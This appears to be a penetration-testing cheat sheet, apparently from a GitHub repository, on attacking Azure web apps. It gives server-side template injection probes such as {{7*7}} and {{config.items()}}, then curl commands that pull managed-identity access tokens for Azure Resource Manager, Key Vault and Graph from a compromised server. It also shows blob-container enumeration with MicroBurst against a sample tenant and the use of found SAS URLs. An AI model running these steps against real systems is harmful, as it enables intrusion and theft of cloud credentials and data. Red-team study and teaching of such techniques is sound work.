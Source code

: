 ## Server Side Template Injection
- SSTI allows an attacker to abuse template syntax to inject payloads in a template that is executed on the server side. 
- That is, we can get command execution on a server by abusing this.
- Find we webapp which is vulnerable, test with injectin a expression ```{{7*7}}``` and see if it gets evaluated.
- The way expression is evaluated means that, most probably, either PHP or Python is used for the web app. We may need to run some trial and error methods to find out the exact language and template framework. 
- Use ```{{config.items()}}``` and see if it works.
- Check if a managed identity is assigned (Check for the env variables IDENTITY_HEADER and IDENTITY_ENDPOINT)
- If code execution is possible execute the following to get a ARM access token for the managed identity:
```
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```
- Request keyvault Access token
```
curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```
- Request AADGraph token
```
curl "$IDENTITY_ENDPOINT?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
curl "$IDENTITY_ENDPOINT?resource=https://graph.windows.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

## OS Command injection
- In case of OS command injection, it is possible to run arbitrary operating  system commands on the server where requests are processed. 
- This is usually due to insecure parsing of user input such as parameters, uploaded files and HTTP requests. 

## Storage account
#### Enumerate Azureblobs
- add permutations to permutations.txt like common, backup, code in the misc directory.
```
Import-Module ./Microburst.psm1
Invoke-EnumerateAzureBlobs -Base defcorp
```
- Access the URL's and see if any files are listed (Example https://defcorpcommon.blob.core.windows.net/backup?restype=container&comp=list)
- Access the files by adding it to the url (Example https://defcorpcommon.blob.core.windows.net/backup/blob_client.py)
- Check for a SAS URL, if found then open the "Connect to Azure Storage", select "blobl container" and select 'Shared Access Signatur (SAS)' and paste the URL, displayname will fill automatically.
